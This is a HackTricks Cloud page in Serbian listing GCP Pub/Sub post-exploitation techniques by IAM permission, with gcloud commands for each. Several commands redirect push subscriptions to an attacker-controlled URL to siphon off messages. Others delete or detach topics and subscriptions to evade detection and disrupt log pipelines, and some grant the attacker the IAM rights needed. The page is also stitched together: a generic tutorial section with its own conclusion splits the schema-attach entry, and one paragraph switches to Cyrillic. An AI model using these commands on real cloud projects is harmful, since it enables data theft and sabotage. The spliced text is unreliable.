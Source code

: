 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Pub/Sub

Za više informacija o Pub/Sub pogledajte sledeću stranicu:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Objavite poruku u temi, korisno za **slanje neočekivanih podataka** i pokretanje neočekivanih funkcionalnosti ili eksploataciju ranjivosti:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Korisno za sprečavanje pretplate da prima poruke, možda da bi se izbeglo otkrivanje.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Korisno za sprečavanje pretplate da prima poruke, možda da bi se izbeglo otkrivanje.\
Moguće je obrisati temu čak i sa pretplatama koje su na nju povezane.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Koristite ovu dozvolu da ažurirate neka podešavanja teme kako biste je poremetili, kao što su `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Dajte sebi dozvolu da izvršite bilo koji od prethodnih napada.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Preuzmite sve poruke na web serveru:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Kreirajte pretplatu i koristite je za **povlačenje poruka**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Brisanje pretplate** može biti korisno za ometanje sistema za obradu logova ili nečeg sličnog:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Koristite ovu dozvolu da ažurirate neka podešavanja tako da poruke budu uskladištene na mestu kojem možete pristupiti (URL, Big Query tabela, Bucket) ili samo da ih poremetite.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Dajte sebi potrebne dozvole da izvršite bilo koji od prethodno komentarisanh napada.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Prikačite šemu na temu tako da poruke ne ispunjavaju šemu i stoga je tema poremećena.\
Ako nema šema, možda ćete morati da kreirate jednu.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}

## Post-Exploitation GCP Pub/Sub

### Pristup Pub/Sub resursima

Nakon što ste dobili pristup GCP nalogu, možete koristiti `gcloud` CLI za interakciju sa Pub/Sub resursima. Na primer, da biste naveli sve Pub/Sub teme:

```bash
gcloud pubsub topics list
```

### Presretanje poruka

Jedan od načina za post-eksploataciju je presretanje poruka koje se šalju preko Pub/Sub. Ovo može uključivati slušanje na određenim temama ili pretplatama.

#### Kreiranje pretplate

Možete kreirati novu pretplatu na temu kako biste presretali poruke:

```bash
gcloud pubsub subscriptions create [SUBSCRIPTION_NAME] --topic=[TOPIC_NAME]
```

#### Povlačenje poruka

Nakon kreiranja pretplate, možete povući poruke sa nje:

```bash
gcloud pubsub subscriptions pull [SUBSCRIPTION_NAME] --auto-ack
```

### Manipulacija porukama

Pored presretanja, možete i manipulirati porukama koje prolaze kroz Pub/Sub. Ovo može uključivati modifikaciju poruka ili slanje lažnih poruka.

#### Slanje poruka

Da biste poslali poruku na temu:

```bash
gcloud pubsub topics publish [TOPIC_NAME] --message "Vaša poruka"
```

### Zaključak

Post-eksploatacija GCP Pub/Sub može pružiti značajne informacije i omogućiti dalju kontrolu nad kompromitovanim sistemom. Uvek se pridržavajte etičkih smernica i zakona prilikom pentestinga i sličnih aktivnosti.
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Ово може изгледати као брисање шеме које ће вам омогућити да шаљете поруке које не испуњавају шему. Међутим, пошто ће шема бити обрисана, ниједна порука заправо неће ући у тему. Дакле, ово је **БЕСПОТРЕБНО**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Dajte sebi potrebne dozvole za izvođenje bilo kog od prethodno komentarisanh napada.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Ovo će kreirati snapshot svih neACKovanih poruka i vratiti ih nazad u pretplatu. Nije baš korisno za napadača, ali evo ga:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hacking trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
